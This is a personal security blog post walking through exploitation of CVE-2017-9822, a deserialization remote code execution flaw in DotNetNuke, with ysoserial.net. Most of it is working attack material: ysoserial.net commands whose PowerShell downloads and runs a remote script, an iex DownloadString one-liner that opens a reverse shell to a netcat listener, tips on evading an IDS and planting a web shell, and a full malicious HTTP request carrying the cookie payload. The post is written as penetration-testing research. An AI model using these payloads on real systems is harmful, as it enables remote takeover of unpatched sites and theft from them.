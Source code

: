 ```yaml
---
layout: post
title:  "Remote Code Execution on DotNetNuke"
tagline: "A look at CVE-2017-9822, RCE on DNN"
description: "A look at exploiting CVE-2017-9822 via ysoserial.net payloads."
tags: [exploits, notes, windows]
date:   2019-05-24
comments: true
image:
  feature: blog/8/feature.jpg
  hero: blog/8/header.jpg
  credit: https://www.pexels.com/photo/woman-behind-laptop-computer-1268472/
  creditlink: rawpixel.com
---
```

**On 13 March 2018** The Black Hat 2017 talk [Friday the 13th: JSON Attacks](https://youtu.be/oUAeWhW5b8c?t=2363) was uploaded, in which [@pwntester](https://pwntester.com/) showed off Proof of Concept code for [CVE-2017-9822](https://nvd.nist.gov/vuln/detail/CVE-2017-9822), a Remote Code Execution vulnerability that affects DotNetNuke (DNN) versions 5.0.0 up to 9.1.0. However at the time the only form the code was shared in was in the video and [PDF of the slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf).

**In October 2018** I started doing some research into DotNetNuke vulnerabilities for an engagement and came across this talk. At the time I couldn't find the demonstrated PoC code anywhere besides the talk itself, so I decided to pause the video, transcribe the XML payload character-for-character, and [share it on twitter](https://twitter.com/GlitchWitchIO/status/1057016441029967873).

But I didn't stop there! I still needed to get RCE working outside of the [FileSystemUtils](https://dotnetnukeru.com/dnndocs/api/html/T_DotNetNuke_Common_Utilities_FileSystemUtils.htm) class, and only had [this exploit](https://pastebin.com/Y6SjeG27) that had been seen in the wild in a [campaign dubbed "Zealot"](https://www.f5.com/labs/articles/threat-intelligence/zealot-new-apache-struts-campaign-uses-eternalblue-and-eternalsynergy-to-mine-monero-on-internal-networks).

## The exploit

After some trial and error, and a nudge from pwntester, I was able to create a reliable exploit by generating a payload with `ysoserial.net` using the `ObjectStateFormatter` as part of the `TypeConfuseDelegate` gadget and dropping the base64 output into the [wrapper used by the Zealot campaign](https://pastebin.com/iGTLweEg).

```powershell
.\ysoserial.exe -f ObjectStateFormatter -g TypeConfuseDelegate -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe curl http://justtesting.local/rcetest" -o base64
```

At this point I had a way to generate a functional exploit and continued on my engagement. However shortly afterwards pwntester created a plugin for ysoserial.net and [had me give it a test](https://twitter.com/pwntester/status/1067136455615614976).

## ysoserial.net DNN plugin

Now that the plugin is [functional](https://github.com/pwntester/ysoserial.net/commit/8001f0ebd0b169a5c6bb8424363b761c38c72bdf), we can generate payloads directly from [ysoserial.net](https://github.com/pwntester/ysoserial.net) without the need to combine two different pieces as I did before.

```powershell
.\ysoserial.exe -p DotNetNuke -M run_command -C  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe curl http://spookyhacker.glitchwitch.io/reverseshell.ps1 -O C:\Users\Public\totallylegit.ps1; C:\Users\Public\totallylegit.ps1"
```

We can replace the command after the `-C` flag with whatever suites your needs. If you are unable to spawn a reverse shell due to an IDS or can't get a web shell due to not knowing the DNN install directory, you can work around this by running `ls C: > C:\Users\Public\dir.log` and then later read that file using a [different payload](https://gist.github.com/pwntester/72f76441901c91b25ee7922df5a8a9e4) to discover the install directory so a web shell can be uploaded.

In the example above we use curl to download and later execute a powershell file.

## Demo

In this example we will generate a payload that downloads and executes samratashok's [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to start a reverse shell.

First we start listening on our attack machine with netcat on port 1337.

```shell_session
nc -lvnp 1337
```

Then we generate the payload using ysoserial.net, taking care to replace the IP address used with your attack machine.

```powershell
.\ysoserial.exe -p DotNetNuke -M run_command -C  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.13.37 -Port 1337"
```
Then we visit a 404 page on our test site to generate the needed cookie.

Next we drop the entire ysoserial.net payload into the `DNNPersonalization=` portion of the cookie, taking care to add a semi-colon at the end.

The resulting request will ultimately look like this.

```http
Host: www.vulnerable.host
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/69.0.3497.81 Chrome/69.0.3497.81 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: dnn_IsMobile=False;DNNPersonalization=<profile><item key="foo" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfObjectStateFormatterObjectDataProvider xmlns:xsd=" [http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema) " xmlns:xsi=" [http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance) "><ExpandedElement/><ProjectedProperty0><MethodName>Deserialize</MethodName><MethodParameters><anyType xsi:type="xsd:string">/wEyxBEAAQAAAP////SSBmb3Jnb3QgdG8gc2F2ZSB0aGUgcGF5bG9hZCB3aGVuIEkgd3JvdGUgdGhpcyBibG9nIHBvc3QgYW5kIHdhcyB0b28gYnVzeSB0byBzcGluIHVwIGEgbmV3IHdpbmRvd3MvZG5uIHZt=</anyType></MethodParameters><ObjectInstance xsi:type="ObjectStateFormatter"></ObjectInstance></ProjectedProperty0></ExpandedWrapperOfObjectStateFormatterObjectDataProvider></item></profile>;language=en-US; .ASPXANONYMOUS=AdJ_92Sn1AEkAAAAODU5YjVjZWMtOWMwYS00ZmE1LThkODgtNWI2OTA0NjZjZjcz0; DotNetNukeAnonymous=b8bcc886-3286-4c26-8a9a-b6d3a73c6376; __RequestVerificationToken=JXPAgO5sl6NtPas-NgSv6SDSQgqLV8eAIlRa0ihpoSVyw_MSzjHXsgJhmQSV-mfU7IZOqjDfBz-fhJ81upD024MEoJ2UKG_QjTSYW_tVkAzOad9tOaWjzfm2c1o1
Connection: close
```
